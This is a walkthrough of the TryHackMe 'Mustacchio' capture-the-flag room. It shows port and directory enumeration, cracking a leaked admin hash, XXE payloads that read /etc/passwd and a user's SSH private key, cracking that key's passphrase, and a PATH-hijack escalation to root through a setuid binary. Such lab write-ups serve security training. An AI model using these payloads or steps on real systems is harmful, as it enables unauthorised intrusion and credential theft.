




# Mustacchio

**Date:** 14, June, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/mustacchio) to go to the TryHackMe room.

## Enumeration

### Nmap

```bash
$ nmap -sC -sV -p- 10.10.230.120 -oN nmap.out
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-14 14:57 IST
Nmap scan report for 10.10.230.120
Host is up (0.16s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1269.52 seconds
```


### Gobuster

```bash
$ gobuster dir -u http://10.10.230.120/ -t 50 -w /usr/share/wordlists/dirb/common.txt | tee gobuster.out
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.230.120/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/14 15:02:30 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/custom               (Status: 301) [Size: 315] [--> http://10.10.230.120/custom/]
/fonts                (Status: 301) [Size: 314] [--> http://10.10.230.120/fonts/] 
/images               (Status: 301) [Size: 315] [--> http://10.10.230.120/images/]
/index.html           (Status: 200) [Size: 1752]                                  
/robots.txt           (Status: 200) [Size: 28]                                    
/server-status        (Status: 403) [Size: 278]                                   
                                                                                  
===============================================================
2021/06/14 15:02:49 Finished
===============================================================
```


## Users.bak



- It's an sqlite database backup

```bash
$ file users.bak 
users.bak: SQLite 3.x database, last written using SQLite version 3034001
```

### Enumerating Backup file

- Using sqlite, we can find the admin's password:

```bash
$ sqlite3 users.bak 
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.

sqlite> .schema
CREATE TABLE users(username text NOT NULL, password text NOT NULL);

sqlite> .tables
users

sqlite> SELECT * FROM users;
admin|REDACTED
```


### Cracking Admin's hash

- Use `john` to crack the admin's hash

```bash
$ john admin_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTED        (?)
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
```


## Admin Panel




### Don't Forget 

- There was a backup file at `/auth/dontforget.bak`
- Contents of that file:

```html
$ cat dontforget.bak 
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

### Add Comment
- The admin panel comment box was accepting only XML



### XXE 

- Try a basic `XXE` payload:

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>&xxe;</name>
  <author>DS</author>
  <com>Hi</com>
</comment>
```




---

## Initial Access

### Barry's Private Key

- In the home page of the admin panel, there was a comment:

```html
<!-- Barry, you can now SSH in using your key!-->
```

- So, try to read Barry's Private Key using XXE:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>&xxe;</name>
  <author>DS</author>
  <com>Hi</com>
</comment>
```

- And we get the Private key successfully.


### Passphrase

- Save the `id_rsa`, change the permissions.
- But we need the passphrase!

```bash
$ nano id_rsa_barry

$ chmod 600 id_rsa_barry

$ ssh -i id_rsa_barry barry@10.10.230.120
Enter passphrase for key 'id_rsa_barry':
```

- Use john to find the passphrase:

```bash
$ locate ssh2john
/usr/share/john/ssh2john.py

$ /usr/share/john/ssh2john.py 
Usage: /usr/share/john/ssh2john.py <RSA/DSA/EC/OpenSSH private key file(s)>

$ john forjohn.txt --format="SSH" --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTED       (id_rsa_barry)
1g 0:00:00:07 68.71% (ETA: 16:14:08) 0.1420g/s 1399Kp/s 1399Kc/s 1399KC/s babaygirl75
1g 0:00:00:08 82.15% (ETA: 16:14:07) 0.1191g/s 1402Kp/s 1402Kc/s 1402KC/s 84059932
Session aborted
```

### User Flag

```bash
$ ssh -i id_rsa_barry barry@10.10.230.120
Enter passphrase for key 'id_rsa_barry': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

34 packages can be updated.
16 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

barry@mustacchio:~$ whoami
barry
barry@mustacchio:~$ ls
user.txt
barry@mustacchio:~$ cat user.txt 
REDACTED
```

---

## Privilege Escalation

### Check SUID binaries

```bash
barry@mustacchio:~$ find / -perm -u=s 2>/dev/null
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/gpasswd
/home/joe/live_log
/bin/ping
/bin/ping6
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
```

### Live Log

```bash
barry@mustacchio:~$ cd /home/joe/
barry@mustacchio:/home/joe$ ls -la /lib64/ld-linux-x86-64.so.2
lrwxrwxrwx 1 root root 32 Jun  5  2020 /lib64/ld-linux-x86-64.so.2 -> /lib/x86_64-linux-gnu/ld-2.23.so
barry@mustacchio:/home/joe$ file live_log 
live_log: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6c03a68094c63347aeb02281a45518964ad12abe, for GNU/Linux 3.2.0, not stripped
barry@mustacchio:/home/joe$ strings live_log 
/lib64/ld-linux-x86-64.so.2
libc.so.6
[..snip..]
Live Nginx Log Reader
tail -f /var/log/nginx/access.log
[..snip..]
```

- The shared object can be used for Privilege escalation!
- But unfortunately, `gcc` was not installed on the machine.
- The other binary being used here is `tail`.

### Tail

- Change the path variable.

```bash
barry@mustacchio:/home/joe$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

barry@mustacchio:/home/joe$ PATH=/home/barry:$PATH

barry@mustacchio:/home/joe$ echo $PATH
/home/barry:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

- Create a `tail` executable in `/home/barry` which opens `/bin/bash`:

```bash
barry@mustacchio:/home/joe$ nano /home/barry/tail
barry@mustacchio:/home/joe$ cat /home/barry/tail 
/bin/bash
barry@mustacchio:/home/joe$ chmod +x  /home/barry/tail 
barry@mustacchio:/home/joe$ ls -l /home/barry/tail 
-rwxrwxr-x 1 barry barry 10 Jun 14 11:15 /home/barry/tail
```

### Root Flag

```bash
barry@mustacchio:/home/joe$ ./live_log 
root@mustacchio:/home/joe# whoami
root
root@mustacchio:/home/joe# cd /root/
root@mustacchio:/root# ls
root.txt
root@mustacchio:/root# cat root.txt 
REDACTED
```

---